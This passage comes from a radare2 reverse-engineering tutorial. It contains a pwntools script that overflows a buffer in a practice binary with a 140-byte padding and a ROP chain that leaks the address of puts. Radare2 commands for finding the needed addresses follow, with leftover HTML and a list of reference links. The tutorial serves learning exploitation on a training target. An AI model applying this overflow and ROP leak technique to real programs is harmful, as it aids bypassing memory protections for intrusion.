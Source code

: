 def main():
    
    # open process
    p = process("./megabeets_0x2")

    # Stage 1
    
    # Initial payload
    payload  =  "A"*140 # padding
    ropchain =  p32(puts_plt)
    ropchain += p32(entry_point)
    ropchain += p32(puts_got)

    payload = payload + ropchain

    p.clean()
    p.sendline(payload)

    # Take 4 bytes of the output
    leak = p.recv(4)
    leak = u32(leak)
    log.info("puts is at: 0x%x" % leak)
    p.clean()
  

if __name__ == "__main__":
    main()


```

            
            <p>
              We need to fill in the addresses of <code>puts@plt</code>, <code>puts@got</code>, and the entry point of the program. Let&#8217;s get back to radare2 and execute the following commands. The <code>#</code> character is used for commenting and the <code>~</code> character is radare&#8217;s internal <code>grep</code>.
            </p>
            
            <table style="background-color: #4a3446; color: #fff; font-family: terminal, monaco, monospace; font-size: 10pt;">
              <tr style="height: 19.8594px;">
                <td style="height: 19.8594px;">
                  <span style="color: #468ee6;">[0xf7763b30]></span> # the address of puts@plt:<br /> <span style="color: #468ee6;">[0xf7763b30]></span> ?v sym.imp.puts<br /> 0x08048390<br /> <span style="color: #468ee6;">[0xf7763b30]</span>> # the address of puts@got:<br /> <span style="color: #468ee6;">[0xf7763b30]></span> ?v reloc.puts<br /> 0x0804a014<br /> <span style="color: #468ee6;">[0xf7763b30]></span> # the address of program&#8217;s entry point (entry0):<br /> <span style="color: #468ee6;">[0xf7763b30]></span> ieq<br /> 0x080483d0
                </td>
              </tr>
            </table>
          </div>
          
          <div style="overflow-x: auto; margin: 0 0 20px;">
            <p>
              <code>sym.imp.puts</code> and <code>reloc.puts</code> are flags that radare is automatically detect. The command <code>ie</code> stands for <strong>I</strong>nformation <strong>E</strong>ntrypoint.
            </p>
            
            <p>
```

 [1]: https://www.megabeets.net/a-journey-into-radare-2-part-1/
 [2]: https://en.wikipedia.org/wiki/NX_bit
 [3]: https://en.wikipedia.org/wiki/Address_space_layout_randomization
 [4]: https://en.wikipedia.org/wiki/Call_stack
 [5]: https://en.wikipedia.org/wiki/Buffer_overflow
 [6]: https://en.wikipedia.org/wiki/Return-oriented_programming
 [7]: https://en.wikipedia.org/wiki/X86_calling_conventions
 [8]: https://www.megabeets.n./r2_part1_2.png
 [9]: https://github.com/ITAYC0HEN/A-journey-into-Radare2/blob/master/Part%202%20-%20Exploitation/megabeets_0x2
 [10]: https://github.com/ITAYC0HEN/A-journey-into-Radare2/blob/master/Part%202%20-%20Exploitation/megabeets_0x2.c
 [11]: https://en.wikipedia.org/wiki/Stack_buffer_overflow#Stack_canaries
 [12]: https://en.wikipedia.org/wiki/Position-independent_code
 [13]: https://tk-blog.blogspot.co.il/2009/02/relro-not-so-well-known-memory.html
 [14]: https://reverseengineering.stackexchange.com/a/16115/18698
 [15]: https://www.megabeets.n./mainsym.png
 [16]: https://www.megabeets.n./beetsym.png
 [17]: https://www.megabeets.n./tumblr_m5vxpy8Cs41qfoh4t.gif
 [18]: https://en.wikipedia.org/wiki/De_Bruijn_sequence
 [19]: https://en.wikipedia.org/wiki/C_standard_library
 [20]: https://en.wikipedia.org/wiki/Return-to-libc_attack
 [21]: https://en.wikipedia.org/wiki/Shellcode